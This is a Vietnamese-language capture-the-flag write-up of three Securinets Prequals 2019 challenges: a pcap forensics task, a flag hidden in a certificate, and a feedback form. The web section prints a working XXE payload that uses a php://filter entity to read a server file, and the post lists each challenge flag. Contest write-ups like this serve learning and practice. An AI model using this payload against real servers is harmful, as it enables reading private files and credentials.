 ```yaml
---
layout: post
comments: true
title: Securinets Prequals 2019
categories: ['2019']
---
```

Team định try hard 0ctf của 10cent nhưng mà khó quá sức mình nên mình rút đi làm cái khác với ôn bài mai thi :(

# Easy Trade (FORENSIC)
[easytrade.pcap](https://drive.google.com/file/d/1DkiG7WSANaAjwpCdgpBCGND0qQW6JvBF/view?usp=sharing)

Mở lên bằng Wireshark, nội dung là 2 thằng trao đổi file cho nhau bị bắt gói lại, không có gì đặc biệt. Mình thử foremost để extract ra xem trong file pcap có ẩn file gì không thì có 1 file zip chứa file flag, bật trở lại Wireshark, filter những cái nào là TCP lại, thì có password extract là `securinetsXD`

Flag : `securinets{954f670cb291ec276b1a9ff8453ea601}`

# HIDDEN (MISC)
[LINK](https://misc1.ctfsecurinets.com/)

Click vào link đập vào mặt mình là trang này bị chrome detect là not secure và sau khi dirsearch hay xem http header chả có gì hết thì mình mở certificate của nó lên xem, nó giấu flag trong filer `Subject` của certificate data 

Flag : `Securinets{HiDDeN_D@tA_In_S3lF_S3iGnEd_CeRtifICates}`

# Feedback (WEB)
[LINK](https://web2.ctfsecurinets.com/)

Source Code (đề phòng trường hợp link die) 

```html

<!DOCTYPE html>
<html lang="en">
<head>
	<title>Securinets CTF Feedback</title>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
<!--===============================================================================================-->
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
<!--===============================================================================================-->
	<link rel="stylesheet" type="text/css" href="css/util.css">
	<link rel="stylesheet" type="text/css" href="css/main.css">
<!--===============================================================================================-->
<script type="text/javascript">
function func(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<feedback>' +
        '<author>' + $('input[name="name"]').val() + '</author>' +
        '<email>' + $('input[name="email"]').val() + '</email>' +
        '<content>' + $('input[name="feedback"]').val() + '</content>' +
        '</feedback>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('Message').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","feed.php",true);
    xmlhttp.send(xml);
};
</script>
</head>
<body>


	<div class="container-contact100">

		<div class="wrap-contact100">
			<form class="contact100-form validate-form" method="POST" onsubmit="func();return false;">
				<span class="contact100-form-title">
					Send Us A Feedback	
				</span>

				<div class="wrap-input100 validate-input" data-validate="Please enter your name">
					<input class="input100" type="text" name="name" placeholder="Full Name">
					<span class="focus-input100"></span>
				</div>

				<div class="wrap-input100 validate-input" data-validate = "Please enter your email: e@a.x">
					<input class="input100" type="text" name="email" placeholder="E-mail">
					<span class="focus-input100"></span>
				</div>

				<div class="wrap-input100 validate-input" data-validate = "Please enter your message">
					<textarea class="input100" name="feedback" placeholder="Your Feedback"></textarea>
					<span class="focus-input100"></span>
				</div>

				<div class="container-contact100-form-btn">
					<button class="contact100-form-btn">
						<span>
							<i class="fa fa-paper-plane-o m-r-6" aria-hidden="true"></i>
							Send
						</span>
					</button>
					<div id="Message" color="Blue" type="text"></div>
				</div>
			</form>
		</div>
	</div>



	<div id="dropDownSelect1"></div>

<!--===============================================================================================-->
	<script src="vendor/jquery/jquery-3.2.1.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/animsition/js/animsition.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/bootstrap/js/popper.js"></script>
	<script src="vendor/bootstrap/js/bootstrap.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/select2/select2.min.js"></script>
<!--===============================================================================================-->
	<script src="vendor/daterangepicker/moment.min.js"></script>
	<script src="vendor/daterangepicker/daterangepicker.js"></script>
<!--===============================================================================================-->
	<script src="vendor/countdowntime/countdowntime.js"></script>
<!--===============================================================================================-->
	<script src="js/main.js"></script>

<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-23581568-13"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-23581568-13');
</script>

</body>
</html>
```

Nhìn vào thì cái cần quan tâm nhất vẫn là cái này 

```javascript
<script type="text/javascript">
function func(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<feedback>' +
        '<author>' + $('input[name="name"]').val() + '</author>' +
        '<email>' + $('input[name="email"]').val() + '</email>' +
        '<content>' + $('input[name="feedback"]').val() + '</content>' +
        '</feedback>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('Message').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","feed.php",true);
    xmlhttp.send(xml);
};
</script>
```

Nên mình nhảy vào làm XXE luôn

Payload:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY khoadeptrai SYSTEM 'php://filter/convert.base64-encode/resource=flag'>
]>
<feedback>
  <author>aa&khoadeptrai;aa</author>
  <email>khoadeptrai123@hehe.com</email>
  <content>jjjjj></content>
</feedback>
```

Flag : `Securinets{Xxe_xXE_@Ll_Th3_W@Y}`
